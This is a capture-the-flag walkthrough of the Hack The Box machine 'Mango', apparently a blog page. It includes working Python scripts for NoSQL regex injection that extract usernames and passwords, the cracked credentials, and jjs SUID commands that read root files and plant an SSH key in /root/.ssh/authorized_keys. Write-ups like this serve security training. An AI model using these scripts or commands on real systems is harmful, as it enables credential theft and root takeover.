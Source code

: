 ```yaml
---
layout: page
title: Mango
order: 6
hide: true
auto-header: none
---
```

<a href="#" class="image centered"><img src="/assets/images/mango.png" alt="mango" /></a>

<h2>Mango</h2>
<h3>The Basics</h3>
The first thing we should do is map the box IP address to the box name  .htb in the `/etc/hosts` file.
`10.10.10.162   mango.htb`

<h3>Initial Scan</h3>
Next up we can try running our standard NMAP scan `nmap -sC -sV mango.htb` but we won't get very far with that, so we decide to do a stealth scan instead and treat the host as online using `nmap -sS -Pn mango.htb`. We get results back for 3 ports: 22 SSH open, 80 HTTP open and 443 HTTPS open.

![Initial NMAP scan](/assets/images/mango-initial-scan.png)

<h3>Web enumeration</h3>
Looking at the NMAP results, we most likely have a web application running on both HTTP 80 and HTTPS 443, so we fire up gobuster and take a manual look at the web app.  
While trying to run gobuster on `https://mango.htb` we get an interesting error message:

![gobuster error](/assets/images/mango-gobuster-results.png)

gobuster is telling us the SSL certificate for `https://mango.htb` is invalid, but it is **valid** for `https://staging-order.mango.htb`. Interesting, let's add `staging-order.mango.htb` to our `/etc/hosts` file and point it back at `10.10.10.162`. At first glance there's nothing interesting at `https://staging-order.mango.htb`, the web page resembles Google Search and we can visit `/analytics.php` which gives us a bunch of errors regarding a key for `*.codepen.io`. This looks to be a dead end.

However, the web server also serves content over HTTP on port 80, so let's give that a try: `http://staging-order.mango.htb`. We get a nice looking login page, when we try to login with some fake credentials not much happens. The page refreshes without any errors or warning messages.

We decide to run gobuster in the background on the virtual host to see if there's anything else going on, meanwhile we set up Hydra to try attack the webform.

![gobuster results](/assets/images/mango-gobuster-results-vh.png)

Looking at the gobuster results, `/vendor` grabs our attention, and after some quick googling we find out `/vendor` is used by [Composer](https://getcomposer.org/) and it often contains `/composer/installed.json`. Inspecting the `installed.json` file, we can quickly see references to [MongoDB](https://www.mongodb.com/) and [mongo-php-adapter](https://github.com/alcaeus/mongo-php-adapter). Interesting, let's test the `index.php` login page for NoSQL injection.

<h3>Enumerating MongoDB for usernames and passwords</h3>
A quick google for NoSQL injection will find us [PayLoadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#post-with-json-body) GitHub repository. We need to modify the Post with JSON body script to fit our needs and enumerate both usernames and passwords.

extract-usernames.py
```python
import time
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username=""
password="cerbersec"
u="http://staging-order.mango.htb/index.php"
headers={'Content-Type' : 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','.','+','?','^','|','}']:
            payload= { 'username[$regex]' : "^" + username + c, 'password[$ne]' : password, "login" : "login" }
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (username+c))
                username += c
```

extract-passwords.py
```python
import time
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="cerbersec"

password=""
u="http://staging-order.mango.htb/index.php"
headers={'Content-Type' : 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','.','+','?','^','|','}']:
            payload= { 'username[$ne]' : username, 'password[$regex]' : "^" + password + c, "login" : "login" }
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```

By modifying the `username` and `password` parameters as we gradually discover usernames and passwords we are eventually able to extract two usernames and two passwords.

Username | Password
--- | ---
admin | t9KcS3>!0B#2
mango | h3mXK8RhU~f{]f5H

<h3>Getting user via horizontal privesc</h3>
Now that we've got some credentials, it's time to find where to use them. When we log in on the web app we get redirected to `home.php` which is "Under Plantation", another dead end.
Trying SSH for **admin** results in a permission denied, but `ssh mango@mango.htb` seems to work with the password and we get our initial shell.

The first thing we can do when we get our initial shell, is checkout the `/home` directory. A quick `ls -la` tells us there are two users, **mango** and **admin**. No surprises here. Upon further inspection of their home directories we can see the `user.txt` flag is locked away in `/home/admin` and only readable by **admin**.

![admin directory](/assets/images/mango-home-admin.png)

Since we have credentials for **admin** let's try a simple horizontal privilage escalation with `su admin`. After entering the password for **admin** we can use `bash` to upgrade to a proper shell and grab the `user.txt` flag from `/home/admin`.

![user flag](/assets/images/mango-user-flag.png)

<h3>Getting root via jjs code execution</h3>
Time to move on to **root**. After some quick initial recon there's nothing that immediatly grabs our attention, so we should run [LinEnum](https://github.com/Cerbersec/scripts/blob/master/linux/LinEnum.sh). It tells us it found an interesting **SUID** file `/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs`.

![LinEnum result jjs](/assets/images/mango-linenum.png)

A quick google for **jjs privesc** tells us `jjs` can be exploited on [GTFOBins](https://gtfobins.github.io/gtfobins/jjs/). We can try to get a shell or reverse shell, but since it returns errors we move on. Another interesting angle could be reading and writing files, so let's give that a go.

File Write
```java
echo 'var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/root/.ssh/authorized_keys");
fw.write("DATA");
fw.close();' | jjs
```

File Read
```java
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
```

Using the **File Read** commands we can easily read `/root/root.txt` and grab the root flag.

![root flag](/assets/images/mango-root-flag.png)

<h3>Root Shell</h3>
To get a root shell we upload a SSH key to `authorized_keys`. We use `ssh-keygen -t rsa` to generate a new key pair and write the contents of `id_rsa.pub` to `/root/.ssh/authorized_keys` using the `fw.write();` function.

![jjs write ssh](/assets/images/mango-write-ssh.png)

Now we can use `ssh root@mango.htb -i id_rsa` to log in as root and get our root shell.

![root shell](/assets/images/mango-root-shell.png)